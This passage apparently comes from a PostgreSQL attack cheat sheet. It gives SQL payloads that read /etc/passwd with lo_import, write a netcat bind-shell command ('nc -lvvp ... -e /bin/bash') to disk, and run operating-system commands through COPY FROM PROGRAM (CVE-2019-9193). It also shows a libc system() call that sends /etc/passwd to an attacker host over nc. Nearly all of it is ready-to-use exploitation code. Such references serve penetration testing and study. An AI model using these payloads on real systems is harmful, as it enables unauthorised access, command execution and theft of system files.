 ```text
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
SELECT lo_get(16420); -- use the OID returned from the above
SELECT * from pg_largeobject; -- or just get all the large objects and their data
```

## PostgreSQL File Write

```text
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

#### Or as one line:

```text
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```

```text
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

## PostgreSQL Command execution

#### CVE-2019–9193

Can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.

```text
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

[![https://cdn-images-1.medium.com/max/1000/1\*xy5graLstJ0KysUCmPMLrw.png](https://camo.githubusercontent.com/9ee1f45c48c724ea5a60566c303d0ef5a6201e9309a0f6ae0eb4f41c30302ce4/68747470733a2f2f63646e2d696d616765732d312e6d656469756d2e636f6d2f6d61782f313030302f312a7879356772614c73744a304b797355436d504d4c72772e706e67)](https://camo.githubusercontent.com/9ee1f45c48c724ea5a60566c303d0ef5a6201e9309a0f6ae0eb4f41c30302ce4/68747470733a2f2f63646e2d696d616765732d312e6d656469756d2e636f6d2f6d61782f313030302f312a7879356772614c73744a304b797355436d504d4c72772e706e67)

#### Using libc.so.6

```text
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```
